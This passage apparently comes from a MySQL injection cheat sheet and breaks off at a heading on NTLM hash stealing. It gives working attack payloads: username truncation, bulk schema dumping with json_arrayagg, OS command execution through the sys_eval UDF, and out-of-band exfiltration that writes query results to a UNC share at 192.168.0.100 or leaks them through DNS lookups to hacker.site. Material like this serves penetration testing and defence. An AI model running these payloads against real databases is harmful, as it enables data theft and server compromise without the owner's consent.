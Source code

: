 ```sql
`username` varchar(20) not null
```

Payload: `username = "admin               a"`

## MYSQL Fast Exploitation

Requirement: `MySQL >= 5.7.22`

Use `json_arrayagg()` instead of `group_concat()` which allows less symbols to be displayed
* group_concat() = 1024 symbols
* json_arrayagg() > 16,000,000 symbols

```sql
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```

## MYSQL UDF command execution

First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MYSQL Out of band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS exfiltration

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM hash stealing
